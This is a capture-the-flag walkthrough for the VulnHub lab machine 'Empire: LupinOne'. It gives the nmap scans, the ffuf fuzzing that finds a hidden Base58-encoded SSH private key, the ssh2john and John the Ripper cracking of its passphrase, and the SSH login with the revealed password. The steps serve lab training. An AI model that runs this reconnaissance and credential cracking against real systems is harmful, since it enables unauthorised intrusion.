::::::::::::::::::: page
# Empire: LupinOne {#empire-lupinone .title}

\

## 

## Empire: LupinOne

- **[Empire: LupinOne]{style="color:#8ff0a4;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/empire-lupinone,750/>



- Now unzip the file .
- Open ovf file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#33d17a;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.227
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.227
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.227
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.227
:::



1.  [Web Enumeration]{style="color:#33d17a;"} :

- IP visit in browser : <http://192.168.2.227/>
  <http://192.168.2.227/robots.txt> <http://192.168.2.227/image/>
  <http://192.168.2.227/~myfiles/>

<!-- -->

- Find hidden user directories :

::: codebox
    ffuf -u http://192.168.2.227/~FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -ic -fc 403
:::



- Visit the parameter and use tild ( \~ ) in parameter :

::: codebox
     http://192.168.2.227/~secret/
:::

- 

 Assume that icex64 is username .

- Find hidden parameter in /\~secret parameter :

::: codebox
    ffuf -u http://192.168.2.227/~secret/.FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -ic -fc 403 -e .txt,.php,.js,.html,.py
:::



- Open the txt file :

::: codebox
    http://192.168.2.227/~secret/.mysecret.txt
:::

 Encoded value found .

- Decode Base58 SSH :

::: codebox
    https://emn178.github.io/online-tools/base58/decode/
:::

 Decode the value .

- Save Decoded value on file :

::: codebox
    nano id_rsa
:::

- Set Correct Permissions :

::: codebox
    chmod 600 id_rsa
:::



- Convert for John to crack SSH Key :

::: codebox
    ssh2john id_rsa > hash.txt
:::

- Crack Hash :

::: codebox
    john hash.txt --wordlist=/usr/share/wordlists/fasttrack.txt
:::

 Password Found .

- Now SSH Login :

::: codebox
    Username : icex64
    Password : P@55w0rd!
:::

- Login Command :

::: codebox
    ssh -i id_rsa icex64@192.168.2.227
:::



- [Important Concepts]{style="color:#33d17a;"} :

  Concept           Meaning
  ----------------- ------------------------------
  Base58            Encoding format
  SSH Private Key   Authentication key
  ssh2john          Convert SSH key to John hash
  JohnTheRipper     Password cracker
  chmod 600         Secure key permissions
:::::::::::::::::::
